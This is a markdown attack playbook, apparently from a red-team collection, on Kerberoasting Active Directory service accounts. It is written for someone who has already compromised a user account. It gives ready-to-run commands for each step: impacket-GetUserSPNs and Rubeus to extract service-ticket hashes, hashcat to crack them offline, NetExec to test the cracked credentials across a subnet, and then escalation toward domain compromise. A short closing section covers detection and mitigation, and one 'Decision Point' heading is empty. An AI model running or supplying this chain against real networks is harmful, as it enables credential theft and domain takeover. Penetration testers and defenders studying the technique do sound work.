

# Kerberoasting Active Directory

## When to Use
- When you have compromised any standard, unprivileged Active Directory user account and need to escalate privileges.
- When you want to target service accounts, which often have weak passwords, high privileges (e.g., Domain Admin), and passwords that rarely expire.
- When you want to conduct a stealthy attack without executing code on the Domain Controller, as requesting Service Tickets (TGS) is a normal AD function.

## Workflow

### Phase 1: Identifying Service Principal Names (SPNs)

```text
# Concept: In Windows domains, services (like SQL Server, IIS, Exchange) run under specific user 
# accounts. These accounts are associated with SPNs. To access a service, any user can request a 
# Ticket Granting Service (TGS) ticket for that SPN from the Domain Controller. The TGS is encrypted 
# with the password hash of the service account.

# Kerberoasting takes advantage of the fact that ANY domain user can request a TGS for ANY SPN.
```

### Phase 2: Requesting and Extracting TGS Tickets

```bash
# Using Impacket (from Kali Linux/attacker machine)
# Assuming you have compromised a standard user 'Bob' with password 'Welcome123!'

# 1. Identify kerberoastable accounts and request their TGS hashes
impacket-GetUserSPNs -request -dc-ip 10.0.0.5 'corp.local/Bob:Welcome123!' -outputfile hashes.txt

# Using Rubeus (from a compromised Windows endpoint)
# Run from a command prompt with Bob's context (e.g., Cobalt Strike beacon)
Rubeus.exe kerberoast /outfile:hashes.txt
```

### Phase 3: Offline Cracking

```bash
# Concept: The extracted TGS tickets are encrypted with the service account's NTLM hash (often RC4 encryption).
# You can use Hashcat to crack these hashes offline without generating any network traffic or lockouts.

# 1. Crack hashes using Hashcat with a wordlist (e.g., rockyou.txt)
# Hash type 13100 is for Kerberos 5 TGS-REP etype 23 (RC4)
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt -O

# 2. Review the cracked passwords
# Hashcat will output the plaintext password if a match is found in the wordlist.
# E.g., svc_sqluser:Password2023!
```

### Phase 4: Privilege Escalation

```bash
# Concept: Service accounts often possess excessive privileges. Once cracked, use the 
# plaintext password to authenticate and move laterally.

# 1. Verify credentials and check privileges using NetExec (nxc) / CrackMapExec
nxc smb 10.0.0.0/24 -u svc_sqluser -p 'Password2023!' --local-auth

# 2. If the service account is a Domain Admin, proceed with full domain compromise (e.g., DCSync).
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Strong Service Account Passwords**: The most effective mitigation is ensuring all service accounts have highly complex, randomly generated passwords of at least 25 characters. Use Managed Service Accounts (gMSA) where possible, as AD automatically rotates their highly complex 120-character passwords every 30 days.
- **Enforce AES Encryption**: RC4 (encryption type 23) is significantly easier to crack than AES (encryption type 18 or 17). Enforce AES-256 for all Kerberos authentication and disable RC4 across the domain via Group Policy.
- **Monitor for Anomalous TGS Requests**: Monitor Event ID 4769 (A Kerberos service ticket was requested). Specifically, look for a high volume of TGS requests with RC4 encryption (Ticket Encryption Type `0x17`) originating from a single user account in a short timeframe, which indicates automated Kerberoasting tools like Rubeus or GetUserSPNs.

## Key Concepts
| Concept | Description |
|---------|-------------|
| SPN | Service Principal Name. A unique identifier for a service instance, used by Kerberos to associate a service instance with a service logon account. |
| TGS | Ticket Granting Service ticket. A ticket requested by a user from the DC, encrypted with the target service account's password hash, used to access the service. |
| RC4 | A weak stream cipher (etype 23) historically used for Kerberos encryption in Active Directory. Easily cracked via brute-force if the underlying password is weak. |

## References
- Mitre ATT&CK: [Steal or Forge Kerberos Tickets: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
- Impacket: [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
- Harmj0y: [Kerberoasting Without Mimikatz](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
